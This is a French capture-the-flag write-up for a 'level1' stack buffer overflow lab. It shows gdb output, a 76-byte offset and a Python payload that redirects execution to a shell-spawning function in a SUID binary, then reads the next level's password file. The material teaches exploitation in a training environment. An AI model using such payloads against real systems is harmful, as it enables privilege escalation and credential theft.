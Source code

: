 # level1 - Stack Buffer Overflow

Le niveau nécessite l'exploitation d'un buffer overflow pour rediriger l'exécution vers une fonction `run()` qui exécute un shell.

## Analyse du Programme

**Structure de la Stack**
- La fonction `gets()` est utilisée sans vérification de taille
- Le buffer overflow permet de réécrire l'adresse de retour (saved EIP)
- L'adresse de `run()` est `0x8048444`
```nasm
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```
## Exploitation du Buffer Overflow

**Localisation de l'Adresse de Retour**
```bash
(gdb) i f
Stack level 0, frame at 0xbffff740:
eip = 0x8048481 in main; saved eip 0xb7e454d3
```

**Calcul de l'Offset**
- Utilisation d'un pattern cyclique pour trouver l'offset précis
- L'offset entre le début du buffer et EBP+4 est de 76 bytes

![alt Ressources/overflow_pattern_1.png](Ressources/overflow_pattern_1.png)

![alt Ressources/overflow_pattern_2.png](Ressources/overflow_pattern_2.png)

**Construction de l'Exploit**
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

L'exploit fonctionne en:
1. Remplissant 76 bytes avec des "A"
2. Ajoutant l'adresse de `run()` en little-endian
3. Maintenant le shell ouvert avec `cat`

## Obtention du Flag
```bash
cat /home/user/level2/.pass
```

Cette méthode fonctionne car le programme est compilé avec le bit SUID, permettant l'exécution du shell avec les privilèges de level2.

